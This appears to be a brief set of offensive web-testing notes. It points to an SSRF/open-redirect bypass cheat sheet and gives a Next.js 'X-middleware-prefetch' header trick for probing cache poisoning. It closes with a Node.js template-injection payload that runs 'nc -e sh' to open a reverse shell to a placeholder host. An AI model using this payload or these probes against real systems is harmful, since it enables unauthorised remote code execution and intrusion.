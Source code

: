 # Tips

### URL Validation bypass (openredirect, SSRF, vv)

```
https://portswigger.net/web-security/ssrf/url-validation-bypass-cheat-sheet
```

### Find nextjs page try Add Header

```
X-middleware-prefetch: 1
```

Maybe have CVE-2023-46298 if save cache

{% embed url="https://zhero-web-sec.github.io/research-and-things/nextjs-and-cache-poisoning-a-quest-for-the-black-hole" %}

### RCE node js teamplate

If you discover a node.js template area, you should try triggerable node payload `require('child_process').exec('nc -e sh ip port');{src:/bin/sh/}`
